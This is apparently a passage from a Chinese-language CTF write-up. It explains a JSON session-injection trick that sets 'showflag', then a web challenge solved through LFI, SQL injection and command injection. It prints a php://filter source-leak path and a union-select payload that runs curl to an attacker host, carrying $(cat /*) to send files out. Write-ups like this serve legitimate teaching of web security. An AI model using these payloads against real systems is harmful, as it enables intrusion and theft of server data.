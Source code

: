  ````
  ", "showflag": true, "password": null, "xxx": "
     |---------------| |---------------| |-------
        覆蓋showflag      繞過valid_user   閉合後面的東西
  ````

如此一來就會把 session 改成這樣的內容：

>  {"showflag": false, "username": "**doesn't_exist**", "password": "  **", "showflag": true, "password": null, "x": "**  "}

接著便會成功看到 flag 了，讚

話說這題最大的坑點應該是，如果你 json 構壞掉（e.g. 順手戳了一個雙引號）整個網頁就會 500 給你看，要清 cookie 才能解決 XDD

## 【5/22 重要公告】

- Category: Web
- Difficulty: Easy
- Solves: 26/327 (Pre-Exam), 1/190 (MyFirstCTF)
- Keywords: LFI, SQL injection, Command injection

定位就只是平凡無奇的老梗漏洞組合包而已⋯⋯吧？

出的時候以為是普通水題，還在猜測這和前面一題 login page 哪個會比較多人解，結果解題人數意外的少 QQ

### Overview

- 根據 http response header 中有 `X-Powered-By: PHP/7.4.19`，藉此可以判斷出是用 php 開發的
- 一進去會先去 fetch `/?module=modules/api` 抓出所有題目清單
- 點擊 check 按鈕會去 `/?module=modules/api&id=<CHALLENGE_ID>` 抓該題目服務的存活狀態

### Solution

#### TL;DR

1. LFI to leak source code: `/?module=php://filter/convert.base64-encode/resource=modules/api`
2. sqli + cmdi -> RCE: `/?module=modules/api&id=-1 union select 1,"';curl%09http://attacker_host/$(cat%09/*);'",3--` (%09 means `"\t"` / tab, use for avoiding whitespace)
3. Get flag!

#### Step 1: LFI

`/?module=modules/api` 的 module 參數明顯的是一個路徑，很可能會有 LFI 的問題，這部分為了怕各位通靈不到我還特別用 `modules/api` 的格式而非 `api` XD

我們可以簡單的實驗驗證這個猜想：

```
/?module=modules/api			-> success
/?module=modules/./api 			-> success
/?module=modules/../modules/api		-> success
/modules/				-> 403
/modules/api.php			-> success（或許需要有點經驗或通靈，但就算不知道這點也足夠進行下一步驟了）
```

接著，根據[隨便都能查到的 LFI 的經典套路](https://google.com/search?q=LFI+CTF)，可以發現能用 `/?module=php://filter/convert.base64-encode/resource=modules/api` 讀到 base64 encode 過的原始碼，當然也可以用 `string.rot13` 之類的，反正都是一樣的意思。
